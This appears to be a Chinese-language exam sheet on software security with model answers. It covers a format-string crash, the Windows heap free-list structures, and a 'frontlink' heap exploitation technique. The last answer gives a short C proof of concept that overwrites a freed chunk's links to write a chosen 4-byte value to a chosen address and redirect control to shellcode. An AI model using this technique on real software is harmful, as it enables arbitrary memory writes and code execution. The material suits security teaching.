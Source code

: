 \documentclass[UTF8]{ctexart}
\begin{document}
\noindent
12.请解释 printf（"\%s\%s\%s\%s\%s\%s\%s\%s\%s\%s"）
格式化输出可能导致程序崩溃？
\begin{tcolorbox}[title=答题区, height=6.5cm]
\end{tcolorbox}


\texttt{printf} 是变参函数，其参数数量和类型完全由格式字符串决定，
但函数在运行时不会对实参个数进行检查。

在该语句中，格式字符串包含多个 \texttt{\%s}，
而调用时并未提供对应的字符串参数。
执行过程中，\texttt{printf} 会按照格式串的要求，
从栈中依次取出“参数”并将其解释为字符串指针。

由于这些栈上的值并非有效的指针，
当 \texttt{\%s} 试图按照该指针访问内存并输出字符串时，
可能解引用非法或未映射的地址，
从而触发段错误，导致程序崩溃。

\noindent
13.什么是空闲内存列表，并画出其关键数据结构。
\begin{tcolorbox}[title=答题区, height=9cm]
\end{tcolorbox}

\textbf{空闲内存列表}是堆管理器用于\textbf{记录并组织空闲堆块}的数据结构。
当调用 \texttt{free} 释放内存时，空闲块会被插入空闲链表；当调用 \texttt{malloc/HeapAlloc}
分配内存时，管理器会在空闲链表中查找合适大小的空闲块并将其取出或分裂。

在 Windows RTL Heap 中，空闲块通常通过\textbf{多个双向链表}按大小类别组织（可表示为
\texttt{Freelist[ ]} 的链表头数组），每个链表头为 \texttt{LIST\_ENTRY}：

\begin{verbatim}
Freelist[i] : LIST_ENTRY { Flink, Blink }
   Flink --> next free chunk
   Blink --> prev free chunk
FreeChunk:
+-------------------------+
| ... header / size ...   |
| LIST_ENTRY: Flink Blink |
| (free space ...)        |
+-------------------------+
\end{verbatim}

当某个链表为空时，该链表头的 \texttt{Flink} 与 \texttt{Blink} 均指向链表头自身（自环）。


\noindent
14.先写出 frontlink 技术实现代码，
分析它并给出实现攻击者提供 4 字节的数据写入到同样是攻击者指定的
4 字节地址的实例详细过程。
\begin{tcolorbox}[title=答题区, height=10.5cm]
\end{tcolorbox}


\begin{lstlisting}[language=C]
int _tmain(int argc, _TCHAR* argv[]) {
    Punalloc h1;
    HLOCAL h2 = 0;
    HANDLE hp;
    hp = HeapCreate(0, 0x1000, 0x10000);
    h1 = (Punalloc)HeapAlloc(hp, HEAP_ZERO_MEMORY, 32);
    HeapFree(hp, 0, h1);              // 错误释放
    h1->fp = (PVOID)(0x042B17C - 4);  // 目标地址-4
    h1->bp = shellcode;              // 要写入的 4 字节值
    h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 32);
    HeapFree(hp, 0, h2);             // 控制转移到 shellcode
    return 0;
}
\end{lstlisting}
\end{document}
